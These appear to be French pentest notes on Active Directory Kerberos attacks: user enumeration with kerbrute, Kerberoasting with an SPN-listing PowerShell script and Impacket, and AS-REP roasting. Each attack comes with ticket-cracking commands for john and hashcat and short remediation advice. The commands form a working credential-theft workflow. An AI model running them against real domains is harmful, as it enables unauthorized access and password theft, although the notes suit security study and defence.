 # Enumeration 
## User Enumeration 
***User enumeration through Kerberos port 88:***  
`./kerbrute_linux_amd64 userenum --dc 10.10.11.152 -d <domain> /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`

# Kerberoasting  

## Outils :  
- ListusersSPNs.ps1  
- Impacket GetUserSPNs.py  
  
## Explications :  
Les comptes de service ont un SPN (Service Principal Name), exemple : www/WEB-SERVER-01.adsec.local  
SPN = combinaison du service + de la machine hébergeant le service  
Comptes de service ont généralement un mdp robuste (20-30 caractères)  
Il est possible d'effectuer des demandes de TGS en indiquant des SPN arbitraires  
Un utilisateur de l’AD peut demander un TGS pour n’importe quel service auprès du KDC  
-> Obtention d'un TGS chiffré avec le mdp du compte possédant le SPN  
-> Bruteforce -> si le TGS est déchiffrable, le mot de passe est trouvé  
  
## Remédiation :  
Pas de SPN sur les comptes utilisateurs (ces derniers ont souvent des comptes à mot de passe suivant la politique AD pouvant être bruteforcés), ou alors si VRAIMENT nécessaire, utiliser la fonctionnalité “Managed Service Accounts” (MSA) de Microsoft qui permet de faire en sorte que le mot de passe du compte soit robuste et changé régulièrement et automatiquement  
  
## Exécution  
`ListusersSPNs.ps1`, listing des utilisateurs possédant un SPN :  
`
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")&nbsp;
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
  {
      $userEntry = $result.GetDirectoryEntry()
      Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
      Write-host "SPNs"
      foreach($SPN in $userEntry.servicePrincipalName)
          {
              $SPN
          }
      Write-host ""
   }    
`
  
À partir de l’adresse <https://beta.hackndo.com/kerberoasting/>
  
  
***Récupération des TGS :***  
  
`
C:\Users\Leperche\Desktop\no_scan\impacket-master\examples>python GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<domain_username>
`
  
***Cracking des TGS :***    
  
`
john --format=krb5tgs --wordlist=/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt TGS_to_crack.txt
`
  
***Affichage des TGS crackés :***  
  
`cat ~/.john/john.pot`
  
# AS_REP Roasting  
  
  
https://beta.hackndo.com/kerberos-asrep-roasting/
  
  
## Outils :  
·       Rubeus
·       Impacket : GetNPUsers.py
  
## Explication :  
Lors d’une demande de TGT, l’utilisateur doit, par défaut, s’authentifier auprès du KDC pour que celui-ci lui réponde. Il arrive que cette authentification préalable ne soit pas demandée pour certains comptes, permettant à un attaquant d’abuser de cette configuration.
Lorsque nous avons parlé du fonctionnement de Kerberos, il a été mis en évidence que dans le premier échange (KRB_AS_REQ - KRB_AS_REP), le client doit d’abord s’authentifier auprès du KDC avant d’obtenir un TGT. Une partie de la réponse du KDC étant chiffrée avec le secret du compte client (la clé de session), il est important que cette information ne soit pas accessible sans authentification. Dans le cas échéant n’importe qui pourrait demander un TGT pour un compte donné, et tenter de décrypter la partie chiffrée de la réponse KRB_AS_REP pour retrouver le mot de passe de l’utilisateur ciblé.
  

TODO IMG


## Remédiation :  
Ne pas activer “Do not require Kerberos preauthentication”
  
  
À partir de l’adresse <https://beta.hackndo.com/kerberos-asrep-roasting/>
  
## Exécution  
***Récupération des TGT pour les utilisateurs pour lesquels la preauth Kerberos est désactivée :***  
<br>
`PS > python C:\GetNPUsers.py spookysec.local/ -no-pass -usersfile .\userlist2.txt -dc-ip <dc_ip> -outputfile .\ASREP_Roastable_users.txt`
  
***Puis cracking :***  
`PS> john --wordlist=$wordlist ASREP_Roastable_users.txt`
  
(ou : `PS >  .\hashcat.exe --force -m 18200 -a 0 -o "../hash_res.txt" "../svc-admin.txt"`)
  
